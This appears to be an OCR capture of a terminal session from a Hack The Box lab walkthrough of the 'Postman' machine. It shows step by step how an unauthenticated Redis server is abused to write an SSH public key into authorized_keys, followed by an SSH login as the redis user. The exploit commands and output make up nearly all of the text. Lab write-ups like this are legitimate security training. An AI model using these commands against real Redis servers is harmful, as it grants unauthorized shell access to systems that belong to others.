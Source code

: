       |   =o            |
      |o =.=+           |
      |E*.*=.o..        |
      |==B .++o         |
      |X* + ..oS        |
      |@oo .   o        |
      |B=..   . .       |
      |++o     .        |
      | oo              |
      +----[SHA256]-----+

    root@p3:/opt/htb/machines/postman# (echo -e "\n\n"; cat postman-id_rsa.pub; echo -e "\n\n") > postman-pub.txt

    root@p3:/opt/htb/machines/postman# cat postman-pub.txt | redis-cli -h postman.htb -x set p3-key
      OK

    root@p3:/opt/htb/machines/postman# redis-cli -h postman.htb
      postman.htb:6379> config set dir /var/lib/redis/.ssh
        OK
      postman.htb:6379> config get dir
        1) "dir"
        2) "/var/lib/redis/.ssh"
      postman.htb:6379> keys *
        1) "cracklist"
        2) "p3-key"
      postman.htb:6379> config set dbfilename "authorized_keys"
        OK
      postman.htb:6379> save
        OK

    root@p3:/opt/htb/machines/postman# ssh redis@postman.htb -i postman-id_rsa
      Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage


       * Canonical Livepatch is available for installation.
         - Reduce system reboots and improve kernel security. Activate at:
           https://ubuntu.com/livepatch
      Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

      Last login: Fri Nov  8 10:14:53 2019 from 10.10.14.39
    redis@Postman:~$ id
      uid=107(redis) gid=114(redis) groups=114(redis)

